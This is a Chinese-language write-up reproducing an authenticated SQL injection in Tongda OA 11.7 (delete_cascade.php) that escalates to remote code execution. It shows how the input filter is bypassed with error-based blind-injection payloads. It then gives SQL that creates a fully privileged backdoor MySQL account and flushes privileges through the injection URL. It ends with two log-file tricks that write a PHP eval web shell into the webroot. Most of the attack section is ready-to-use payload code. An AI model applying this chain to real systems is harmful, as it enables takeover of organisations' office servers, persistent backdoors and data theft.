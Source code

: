 # 通达oa 11.7 后台sql注入漏洞&rce

## 一、漏洞简介

### 利用条件：

需要登陆后台

## 二、漏洞影响

通达oa 11.7

## 三、复现过程

注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下：

![1.png](media/202009/cd25f043ad8b41e38a465fe1d5c8582b.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的'替换为'。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用addslashes函数进行保护，如下：

`inc/common.inc.php`代码

![2.png](media/202009/676d9ca38461400b8ffa735ed25e0567.png)

因为是无回显机制，是盲注，所以尝试(select 1 from (select sleep(5))a)，结果没那么简单：

![3.png](media/202009/6793e4c8f25c434caef8dac36479bc93.png)

触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

![4.png](media/202009/46c2e68425464c8ea8c77cc8203893bb.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：substr、if等函数，均未被过滤，所以还是有机会的。

传入错误的SQL语句时，页面出错：

![5.png](media/202009/bac9abb089e647d993c859c662f82caf.png)

那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错

```

![6.png](media/202009/1aafdaccc56a4f5ca82ac1e1bc6df750.png)

![7.png](media/202009/679f5dd7be2e4288a39e47b9dd347d82.png)

### 构造利用链

> 添加用户：

```sql
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

```

![8.png](media/202009/e707ee0769cc418cb6403d5264c92fe3.png)

![9.png](media/202009/9311158fe11a451490bf87017688a943.png)

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```sql
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

```

![10.png](media/202009/b716f1c7933f4002aac3bfae69724ebc.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

![11.png](media/202009/78a59e58756c4f4180c3ba4a2c5eba79.png)

提示这个，或者让改密码死活改不了。再执行一下

```sql
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

```

![12.png](media/202009/f43b2c5e0d6449d98348d49fbb7db9c0.png)

### 写shell

```sql
# 查路径：
select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot\
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='C:/td0a117/webroot/tony.php';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'C:/td0a117/webroot/tony2.php';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';

```

![13.png](media/202009/86903fcbebae49a69fb17aac0fc71d47.png)

